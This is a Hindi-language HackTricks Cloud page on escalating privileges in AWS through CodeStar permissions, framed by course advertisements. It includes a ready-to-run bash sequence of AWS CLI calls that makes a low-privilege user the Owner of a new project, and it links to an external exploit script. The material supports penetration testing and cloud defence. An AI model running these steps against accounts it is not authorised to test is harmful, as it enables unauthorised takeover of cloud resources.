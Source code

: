 # AWS - Codestar Privesc

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Codestar

आप codestar के बारे में अधिक जानकारी यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप **codestar IAM Role का दुरुपयोग कर सकते हैं** एक **cloudformation template** के माध्यम से **मनमानी क्रियाएं** करने के लिए। निम्नलिखित पृष्ठ देखें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

यह तकनीक `codestar:CreateProject` का उपयोग करके एक codestar प्रोजेक्ट बनाने के लिए, और `codestar:AssociateTeamMember` का उपयोग करके एक IAM उपयोगकर्ता को नए CodeStar **प्रोजेक्ट** का **मालिक** बनाने के लिए करती है, जिससे उन्हें कुछ **अतिरिक्त अनुमतियों** के साथ **नई नीति** प्रदान की जाएगी।
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से ही **प्रोजेक्ट के सदस्य** हैं तो आप **`codestar:UpdateTeamMember`** अनुमति का उपयोग करके अपनी भूमिका को `codestar:AssociateTeamMember` के बजाय मालिक में **अपडेट कर सकते हैं।**

**संभावित प्रभाव:** codestar नीति में Privesc उत्पन्न होता है। आप उस नीति का एक उदाहरण यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. नया प्रोजेक्ट बनाने के लिए **`codestar:CreateProjectFromTemplate`** का उपयोग करें।
1. आपको “CodeStarWorker-\<project name>-CloudFormation” IAM भूमिका वाले स्टैक पर **`cloudformation:UpdateStack`** की पहुँच प्रदान की जाएगी।
2. CloudFormation अनुमतियों का उपयोग करके अपनी पसंद के CloudFormation टेम्पलेट के साथ लक्षित स्टैक को अपडेट करें।
1. अपडेट किए जाने वाले स्टैक का नाम “awscodestar-\<project name>-infrastructure” या “awscodestar-\<project name>-lambda” होगा, जो टेम्पलेट के उपयोग पर निर्भर करता है (कम से कम उदाहरण शोषण स्क्रिप्ट में)।

इस बिंदु पर, आपके पास अब **CloudFormation IAM भूमिका** को प्रदान की गई **पूरी पहुँच** होगी। इसके अकेले से आप पूर्ण प्रशासक नहीं बन पाएंगे; आपको इसे करने के लिए पर्यावरण में अन्य गलत कॉन्फ़िगर किए गए संसाधनों की आवश्यकता होगी।

अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
आप शोषण को यहाँ पा सकते हैं [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**संभावित प्रभाव:** cloudformation IAM भूमिका में Privesc।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>शून्य से हीरो तक</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

